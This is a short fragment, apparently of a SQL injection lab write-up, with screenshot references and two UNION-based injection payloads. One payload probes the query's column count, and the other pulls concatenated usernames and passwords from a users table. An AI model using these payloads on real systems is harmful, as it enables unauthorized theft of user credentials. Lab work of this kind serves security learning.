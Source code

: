  ![alt text](image-37.png)
 
' UNION SELECT 'a', 'a'--
 ![alt text](image-38.png)
' UNION SELECT null, username || '~' || password FROM users—